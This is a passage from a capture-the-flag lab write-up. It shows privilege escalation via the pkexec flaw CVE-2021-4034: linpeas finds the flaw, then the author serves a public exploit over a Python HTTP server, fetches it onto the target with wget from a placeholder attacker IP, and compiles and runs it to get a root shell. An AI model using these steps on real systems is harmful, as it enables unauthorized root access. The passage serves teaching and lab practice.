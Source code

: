 After `linpeas` was done, it was able to discover a vulnerability with the CVE number of `CVE-2021-4034`:

<p align="center"><img src="files/CVE.png"></p>

### Exploit

This vulnerability was published two months before the room was published, so let's use it. I don't think that it was intentional, but we are hacking a machine, so why not use it?

The exploit uses the vulnerable `pkexec` tool, and allows a local user to gain root system privileges on the affected host.

I found an exploit for it in github [here](https://github.com/berdav/CVE-2021-4034). To be able to transfer it to the target machine, we have to download its zip file as shown below:

<p align="center"><img src="files/gitpic.png"></p>

After you downloaded the file, start a python http server in the location of the zip file:

~~~
└─$ sudo python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
~~~

Now on the target machine, we download the exploit zip file, and using the guide, we compile and run it:

~~~
ArthurMorgan@incognito:/tmp$ wget http://<YOUR IP>:8000/CVE-2021-4034-main.zip
ArthurMorgan@incognito:/tmp$ unzip CVE-2021-4034-main.zip
ArthurMorgan@incognito:/tmp$ cd CVE-2021-4034-main
ArthurMorgan@incognito:/tmp/CVE-2021-4034-main$ make
ArthurMorgan@incognito:/tmp/CVE-2021-4034-main$ ./cve-2021-4034
# whoami
root
~~~
